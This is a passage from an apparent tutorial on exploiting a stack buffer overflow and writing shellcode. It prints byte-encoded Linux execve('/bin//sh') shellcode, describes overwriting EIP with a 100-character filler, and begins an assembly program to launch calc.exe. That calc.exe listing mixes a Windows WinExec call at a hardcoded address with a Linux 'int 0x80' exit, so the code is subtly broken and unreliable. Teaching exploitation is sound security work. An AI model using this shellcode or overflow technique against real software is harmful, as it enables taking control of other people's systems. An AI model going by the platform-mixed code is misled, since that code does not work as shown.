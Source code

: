 This program, when compiled allows an attacker to control the EIP by passing more than 100 characters as the argument. We can create a pseudo shellcode to overwrite the EIP with the following:

```asm
xor eax, eax        ;"\x31\xc0"             
push eax            ;"\x50"                  
push "//sh"         ;"\x68\x2f\x2f\x73\x68"  
push "/bin"         ;"\x68\x2f\x62\x69\x6e"  
mov ebx, esp        ;"\x89\xe3"              
push eax            ;"\x50"                  
push ebx            ;"\x53"                  
mov ecx, esp        ;"\x89\xe1"              
cdq                 ;"\x99"                  
mov al, 0xb         ;(execve syscall number) ;"\xb0\x0b"              
int 0x80            ;(trigger syscall) ;"\xcd\x80"              
```

In theory what would happen is the following:

* The attacker fills the buffer; in this case it is 100 characters with whatever they want. In the scenario you could easily fill the buffer using something like `python -c 'print("A"*100)'`.
* The attacker overwrites the return address or EIP to point to the location of their shellcode.
* The overwritten EIP address now contains the shellcode address and the shellcode is executed.

It is important to note this explanation will most likely not be able to be compiled and most likely will not work. This is a pseudo example designed to explain to you how shellcode works and why it works.

***

## Let's write some shellcode!

Now that you have got the basic idea, we will start writing our own. We will write a basic assembly program to launch calc.exe. We will then convert the assembly into shellcode and call it through a C program. Let's get started:

```asm
section .text
    global _start

_start:
    ; push a null terminated string containing 'calc.exe' onto the stack
    xor    eax, eax
    push   eax 
    push   0x6578652e  ; "exe."
    push   0x636c6163  ; "calc"
    mov    ebx, esp

    ; get WinExec address from kernel32.dll (typical system might be different for your system)
    mov    eax, 0x76c76360
    
    push   1
    push   ebx  ; "calc.exe"
    call   eax  ; call WinExec(lpCmdLine="calc.exe", SW_SHOWNORMAL)

    ; exit cleanly
    xor    eax, eax
    push   eax
    mov    al, 0x1
    int    0x80 
```
